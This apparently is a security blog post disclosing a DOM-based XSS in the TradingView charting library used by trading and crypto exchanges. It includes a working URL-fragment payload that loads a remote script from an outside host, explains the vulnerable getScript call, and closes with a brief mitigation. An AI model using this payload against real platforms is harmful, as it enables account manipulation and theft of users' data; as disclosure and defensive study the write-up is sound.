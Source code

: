 ```yaml
---
layout: post
title: "TradingView Charting Library XSS Vulnerablity"
excerpt: "TradingView Charting Library XSS Vulnerablity, high impact"
categories: [Vulnerablity]
comments: true
tag: ['cybersecurity', 'pentesting', 'infosec', 'Vulnerablity', 'xss', 'TradingView', 'web app security']
image:
  feature: tradingview-xss/xss_cover.png
  show: true
---
```


## 0x00 Background
TradingView has popular charting libraries which are used in many online trading platforms for stocks or cryptocurrencies. This vulnerability is a fairly new XSS vulnerability. This vulnerability could bypass Cloudflare or other defense mechanism and cause financial losses due to account request forgery or malicious manipulation. We are going to talk about the vuln and the mitigation.

## 0x01 Vulnerability and Attack
Since TradingView's library is widely-used, we can easily find a test target amongst stock exchange or cryptocurrency exchange platforms. Now let's try to trigger the alert dialog.

After a little bit trying and looking at the code, we have the payload.

Payload
```
#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=http://xss.rocks/xss.js
```

Constructed URL
```
https://www.xxxxx.com/static/charting_library/static/tv-chart.630b704a2b9d0eaf1593.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=http://xss.rocks/xss.js
```

<br>

![alert][1]{:class="post-image center"}


Minimum required set of parameters: [**disabledFeatures**, **enabledFeatures**, **indicatorsFile**]

After all, it turned out to be easy to understand the vulnerability. Let's look at library.xxxx.js under ```charting_library/static/bundles/```

```javascript
D ? $.getScript(urlParams.indicatorsFile).done(function() {...})
```

![alert][2]{:class="post-image center"}


Looks familiar? I believe that you probably have seen jQuery's ```$.getScript$``` many times either when programming or digging bugs. So the core code for this function is essentially...

![jquery_getscript][3]{:class="post-image center"}

According to the source code, we can dynamically create a script tag and load a remote js file. 

Then, why are ```disabledFeatures``` and ```enabledFeatures``` also needed for the payload? We can tell from the code... that there will be an exception thrown if one of these parameters is not provided.

![two_params][4]{:class="post-image center"}

Therefore, the final payload was the one mentioned before.


## 0x03 Vuln Impact 
As we can see, this XSS vuln is a DOM-based XSS, so it means that it can also bypass browsers' XSS protection. The advantage of DOM-based XSS is that it modifies the DOM “environment” in the victim’s browser used by the original client-side script, which means it won't even go through the service's server end for logging purpose or server-side protection. 

Furthermore, the domain that this XSS is triggered is not separated from the core domain where the sensitive data is contained. So, the exploit is conveniently simple to be extraordinarily malicious lol. For example, think of using $ directly could steal some sensitive data or something advanced there.

If someone is experienced in attacking, then he/she knows how to find targets at scale.


## 0x04 Mitigation
In the file we have seen, ```/charting_library/static/bundles/library.19c99ed5d0307c67f071.js```, hardcode getScript so that it takes no files.

```getScript(urlParams.indicatorsFile)``` --> ```getScript("")```



[1]: {{ "/assets/upload/images/tradingview-xss/alert.png" | absolute_url }}
[2]: {{ "/assets/upload/images/tradingview-xss/indicatorsFile-code.png" | absolute_url }}
[3]: {{ "/assets/upload/images/tradingview-xss/getscript.png" | absolute_url }}
[4]: {{ "/assets/upload/images/tradingview-xss/two-params.png" | absolute_url }}
